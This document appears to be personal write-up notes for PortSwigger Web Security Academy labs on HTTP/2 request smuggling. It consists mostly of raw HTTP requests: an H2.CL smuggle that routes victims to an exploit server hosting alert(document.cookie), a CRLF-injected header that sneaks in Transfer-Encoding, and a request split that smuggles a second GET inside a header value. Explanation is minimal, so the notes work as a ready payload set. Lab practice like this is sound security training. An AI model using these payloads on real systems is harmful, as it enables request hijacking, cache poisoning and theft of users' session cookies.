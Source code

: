 ```http
Content-Length: 89

0

GET /s HTTP/1.1
Host: 0a280016039875158045daf500f800bc.web-security-academy.net


```

# H2.CL request smuggling
- Just had to repeat until it solved
- The exploit server just had alert(document.cookie) on it
```http
POST / HTTP/2
Host: 0a1200140480b4ea8499544200160055.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

0

GET /resources HTTP/1.1
Host: exploit-0ac9000c0419b460849f53a5012500d9.exploit-server.net
Content-Length: 10

x=1
```

# H2 via CRLF injection
```http
POST / HTTP/1.1
Host: 0abd00db0406587a8182c579008f00de.web-security-academy.net
content-type: application/x-www-form-urlencoded
foo: bar\r\nTransfer-Encoding: chunked
Content-Length: 173

0

POST / HTTP/1.1
Host: 0abd00db0406587a8182c579008f00de.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 350

search=data:
```

# H2 splitting via CRLF
```http
GET / HTTP/2
Host: 0a3800b404a5772680e7da7d00da0068.web-security-academy.net
foo: bar\r\n\r\nGET /x HTTP/1.1\r\nHost: 0a3800b404a5772680e7da7d00da0068.web-security-academy.net

```
